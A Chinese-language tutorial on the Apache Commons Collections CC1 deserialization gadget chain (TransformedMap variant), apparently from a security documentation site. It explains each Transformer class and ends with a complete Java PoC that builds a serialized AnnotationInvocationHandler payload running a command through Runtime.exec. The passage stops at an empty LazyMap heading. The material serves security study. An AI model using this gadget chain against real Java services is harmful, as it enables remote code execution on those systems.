

# Apache Commons Collections反序列化漏洞

Apache Commons是Apache开源的Java通用类项目，在Java中项目中被广泛的使用，Apache Commons当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的Collection（集合）相关类对象。本节将逐步详解Collections反序列化攻击链(仅以TransformedMap调用链为示例)最终实现反序列化RCE。(1)
{ .annotate }

1. [《Commons-Collections反序列化漏洞复现》](https://www.cnblogs.com/BUTLER/p/16478574.html){target="_blank"}

## 1 CC1-TransformedMap
### Transformer

`Transformer`是`org.apache.commons.collections.Transformer`接口的实现类，`Transformer`接口定义了一个`transform`方法，用于对输入的对象进行转换。
```java title="org.apache.commons.collections.Transformer"
    /**
     * 将输入对象（保持不变）转换为某个输出对象。
     *
     * @param input  需要转换的对象，应保持不变
     * @return 一个已转换的对象
     * @throws ClassCastException (runtime) 如果输入是错误的类
     * @throws IllegalArgumentException (runtime) 如果输入无效
     * @throws FunctorException (runtime) 如果转换无法完成
     */
    public interface Transformer {
        Object transform(Object input);
    }
```

该接口的重要实现类有：`ConstantTransformer`、`invokerTransformer`、`ChainedTransformer`、`TransformedMap`

### ConstantTransformer

ConstantTransformer，常量转换：传入对象不会经过任何改变直接返回。

```java title="org.apache.commons.collections.functors.ConstantTransformer"
package org.apache.commons.collections.functors;

import java.io.Serializable;
import org.apache.commons.collections.Transformer;

public class ConstantTransformer implements Transformer, Serializable {

    private static final long serialVersionUID = 6374440726369055124L;

    /** 每次都返回null */
    public static final Transformer NULL_INSTANCE = new ConstantTransformer(null);

    /** The closures to call in turn */
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        if (constantToReturn == null) {
            return NULL_INSTANCE;
        }

        return new ConstantTransformer(constantToReturn);
    }

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }

    public Object getConstant() {
        return iConstant;
    }
}
```

### InvokerTransformer

`org.apache.commons.collections.functors.InvokerTransformer`实现了`java.io.Serializable`接口。2015年有研究者发现利用`InvokerTransformer`类的`transform`方法可以实现Java反序列化RCE，并提供了利用方法：[ysoserial CC1](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java){target="_blank"}

`InvokerTransformer`类的`transform`方法通过反射调用指定对象的方法，返回方法执行结果。

```java title="org.apache.commons.collections.functors.InvokerTransformer"
public class InvokerTransformer implements Transformer, Serializable {

    private static final long serialVersionUID = -8653385846894047688L;

    /** 要调用的方法名称 */
    private final String iMethodName;

    /** 反射参数类型数组 */
    private final Class[] iParamTypes;

    /** 反射参数值数组 */
    private final Object[] iArgs;

    ···

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
              // 获取输入类的类对象
            Class cls = input.getClass();

              // 通过输入的方法名和方法参数，获取指定的反射方法对象
            Method method = cls.getMethod(iMethodName, iParamTypes);

              // 反射调用指定的方法并返回方法调用结果
            return method.invoke(input, iArgs);
        } catch (Exception ex) {
            // 省去异常处理部分代码
        }
    }
}
```

### ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer` 类封装了`Transformer`的链式调用，对于传入的`Transformer`数组，`ChainedTransformer`依次调用每一个`Transformer`的`transform`方法。

```java title="org.apache.commons.collections.functors.ChainedTransformer"
public class ChainedTransformer implements Transformer, Serializable {

  /** The transformers to call in turn */
  private final Transformer[] iTransformers;

  ...

  public ChainedTransformer(Transformer[] transformers) {
      super();
      iTransformers = transformers;
  }
  public Object transform(Object object) {
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }
      return object;
  }
}
```

??? example "使用ChainedTransformer实现调用本地命令执行方法"

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;

    public class ChainTransformer {

        public static void main(String[] args) throws Exception {
            // 定义需要执行的本地系统命令
            String cmd = "calc.exe";

            // ChainedTransformer调用链分解

    //        // new ConstantTransformer(Runtime.class
    //        Class<?> runtimeClass = Runtime.class;
    //
    //        // new InvokerTransformer("getMethod", new Class[]{
    //        //         String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
    //        // ),
    //        Class  cls1       = runtimeClass.getClass();
    //        Method getMethod  = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
    //        Method getRuntime = (Method) getMethod.invoke(runtimeClass, new Object[]{"getRuntime", new Class[0]});
    //
    //        // new InvokerTransformer("invoke", new Class[]{
    //        //         Object.class, Object[].class}, new Object[]{null, new Object[0]}
    //        // )
    //        Class   cls2         = getRuntime.getClass();
    //        Method  invokeMethod = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
    //        Runtime runtime      = (Runtime) invokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]});
    //
    //        // new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
    //        Class  cls3       = runtime.getClass();
    //        Method execMethod = cls3.getMethod("exec", new Class[]{String.class});
    //        execMethod.invoke(runtime, cmd);

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                            Object.class, Object[].class}, new Object[]{null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 执行对象转换操作
            Object transform = transformedChain.transform(null);

            System.out.println(transform);
        }

    }
    ```
    运行结果如下：
    

### 利用InvokerTransformer执行本地命令

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的Transformer类的Map对象，紧接着我们应该思考如何才能够将调用链串起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对Map的key或者value进行Transformer转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java title="org.apache.commons.collections.map.TransformedMap"
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      ...
}
```

调用`TransformedMap`的`setValue`/`put`/`putAll`中的任意方法都会调用`transform`方法，从而也就会触发命令执行：

??? example "使用 TransformedMap类的setValue触发transform示例："

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;

    import java.util.HashMap;
    import java.util.Map;

    public class TransformedMapTest {

        public static void main(String[] args) {
            String cmd = "calc.exe";

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                            Object.class, Object[].class}, new Object[]{null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 创建Map对象
            Map map = new HashMap();
            map.put("value", "value");

            // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
            Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

            // transformedMap.put("v1", "v2");// 执行put也会触发transform

            // 遍历Map元素，并调用setValue方法
            for (Object obj : transformedMap.entrySet()) {
                Map.Entry entry = (Map.Entry) obj;

                // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
                entry.setValue("test");
            }

            System.out.println(transformedMap);
        }

    }
    ```
    运行结果如下：
    

任何一个类只要符合以下条件，我们就可以在Java反序列化的时候触发`InvokerTransformer`类的`transform`方法实现RCE：

1. 实现了`java.io.Serializable`接口
2. 并且可以传入我们构建的`TransformedMap`对象
3. 调用了`TransformedMap`中的`setValue`/`put`/`putAll`中的任意方法一个方法的类

### AnnotationInvocationHandler

`sun.reflect.annotation.AnnotationInvocationHandler`类实现了`java.lang.reflect.InvocationHandler`(Java动态代理)接口和`java.io.Serializable`接口，它还重写了`readObject`方法，在`readObject`方法中间接的调用了`TransformedMap中MapEntry`的`setValue`方法，从而完成了整个攻击链的调用。

```java title="sun.reflect.annotation.AnnotationInvocationHandler" linenums="1"
package sun.reflect.annotation;

class AnnotationInvocationHandler implements InvocationHandler, Serializable {

    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {...}

    // Java动态代理的invoke方法
    public Object invoke(Object var1, Method var2, Object[] var3) {...}

    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
}
```

其中第11行 `var1.defaultReadObject();` 反序列化生成 `memberValues` 对象，即我们传入的 `TransformMap`。需要注意的是如果我们想要进入到`var5.setValue`这个逻辑需要满足以下两个要求：

1. `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 `Annotation`的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被`TransformedMap`修饰的Map中必须有一个键名为X的元素


因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

???+ example "创建AnnotationInvocationHandler对象"

    ```java
    // 创建Map对象
    Map map = new HashMap();

    // map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
    // AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
    // 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
    // 类调用其自身实现的readObject方法时无法调用setValue方法。
    map.put("value", "123");

    // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
    Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

    // 获取AnnotationInvocationHandler类对象
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

    // 获取AnnotationInvocationHandler类的构造方法
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

    // 设置构造方法的访问权限
    constructor.setAccessible(true);

    // 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
    // Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
    Object instance = constructor.newInstance(Target.class, transformedMap);
    ```
### PoC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "123");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

## 2 CC1-LazyMap
